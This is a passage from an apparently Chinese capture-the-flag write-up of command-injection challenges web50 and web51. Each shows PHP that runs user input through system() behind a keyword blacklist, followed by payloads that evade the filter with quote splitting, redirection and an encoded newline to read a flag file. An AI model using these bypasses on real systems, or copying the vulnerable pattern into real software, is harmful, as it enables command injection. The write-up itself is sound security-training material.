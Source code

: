## web50

```php
*/
 
 
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

发现过滤了26和09的编码

并且这个题目的 ? 无法使用 所以我们需要通过 绕过 因为正则只匹配flag完整字符串

```bash
tac<fla''g.php%0a
tac<fla''g.php||ls
```

## web51

```php
 
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了一些输出的命令

```bash
nl<fla''g.php%0a
nl<fla''g.php||ls
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/11f5a0fab1cb27fda91cc6ba77b4f735.png" alt="" style="max-height:110px; box-sizing:content-box;" />


## web52
